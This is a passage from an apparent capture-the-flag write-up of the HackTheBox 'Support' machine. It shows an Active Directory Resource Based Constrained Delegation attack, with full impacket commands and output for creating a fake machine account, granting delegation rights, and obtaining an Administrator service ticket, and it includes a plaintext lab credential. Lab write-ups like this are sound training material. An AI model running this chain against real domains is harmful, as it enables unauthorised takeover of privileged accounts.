 ![htb-support-user-txt](images/HTB-support/htb-support-user-txt.png)
## root.txt
Going back to `bloodhound` we can check the `Outbound Object Controls` of the `support` user
![htb-support-genericall](images/HTB-support/htb-support-genericall.png)

### Resource Based Constrained Delegation
Since our group has the `GenericAll` privilege over the computer, we can perform a [Resource Based Constrained Delegation](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/resource-based-constrained-delegation.html#linux-tooling-end-to-end-rbcd-with-impacket-2024){:target="_blank"}{:rel="noopener noreferrer"} attack to impersonate **any user** on the machine

First we'll create a new (fake) computer
```bash
┌──(kali@kali)-[~/support.htb]
└─$ impacket-addcomputer -computer-name 'FAKE$' -computer-pass 'Dasian123!' -dc-ip 10.10.11.174 'support.htb/support:Ironside47pleasure40Watchful' 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Successfully added machine account FAKE$ with password Dasian123!.
```

Grant RBCD on the vulnerable computer to our fake machine 
```bash
┌──(kali@kali)-[~/support.htb]
└─$ impacket-rbcd -delegate-to 'DC$' -delegate-from 'FAKE$' -dc-ip 10.10.11.174 -action write 'support.htb/support:Ironside47pleasure40Watchful'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] FAKE$ can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     FAKE$        (S-1-5-21-1677581083-3380853377-188903654-5603)
```

Request a service ticket for the user we want to impersonate
```bash
┌──(kali@kali)-[~/support.htb]
└─$ impacket-getST -spn cifs/dc.support.htb -impersonate Administrator -dc-ip 10.10.11.174 'support.htb/FAKE$:Dasian123!'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
```
